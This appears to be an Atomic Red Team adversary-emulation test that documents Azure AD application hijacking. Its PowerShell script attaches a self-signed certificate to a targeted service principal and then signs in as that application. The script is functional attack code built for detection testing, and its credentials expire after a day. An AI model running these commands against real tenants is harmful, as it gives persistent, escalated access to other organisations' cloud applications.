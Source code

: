 Add a certificate to an Application through its Service Principal. The certificate can then be used to authenticate as the application.
This can be used for persistence, and also for privilege escalation by benefiting from the Application's rights.
An account with high-enough Azure AD privileges is needed, such as Global Administrator or Application Administrator. The account authentication must be without MFA.

**Supported Platforms:** Azure-ad

**auto_generated_guid:** b8e747c3-bdf7-4d71-bce2-f1df2a057406

#### Inputs:

| Name                   | Description                            | Type   | Default Value    |
| ---------------------- | -------------------------------------- | ------ | ---------------- |
| username               | Azure AD username                      | string | jonh@contoso.com |
| password               | Azure AD password                      | string | p4sswd           |
| service_principal_name | Name of the targeted service principal | string | SuperSP          |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential > $null

$sp = Get-AzureADServicePrincipal -SearchString "#{service_principal_name}" | Select-Object -First 1
if ($sp -eq $null) { Write-Warning "Service Principal not found"; exit }

# in the context of an ART test (and not a real attack), we don't need to keep access for too long. In case the cleanup command isn't called, it's better to ensure that everything expires after 1 day so it doesn't leave this backdoor open for too long
$credNotAfter = (Get-Date).AddDays(1)
$certNotAfter = (Get-Date).AddDays(2) # certificate expiry must be later than cred expiry

$cert = New-SelfSignedCertificate -DnsName "atomicredteam.example.com" -FriendlyName "AtomicCert" -CertStoreLocation Cert:\CurrentUser\My -KeyExportPolicy Exportable -Provider "Microsoft Enhanced RSA and AES Cryptographic Provider" -NotAfter $certNotAfter
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())
Write-Host "Generated certificate ""$($cert.Thumbprint)"""

New-AzureADServicePrincipalKeyCredential -ObjectId $sp.ObjectId -Type AsymmetricX509Cert -CustomKeyIdentifier "AtomicTest" -Usage Verify -Value $keyValue -EndDate $credNotAfter

Start-Sleep -s 30
$tenant = Get-AzureADTenantDetail
$auth = Connect-AzureAD -TenantId $tenant.ObjectId -ApplicationId $sp.AppId -CertificateThumbprint $cert.Thumbprint
Write-Host "Application Hijacking worked. Logged in successfully as $($auth.Account.Id) of type $($auth.Account.Type)"
Write-Host "End of Hijacking"
```

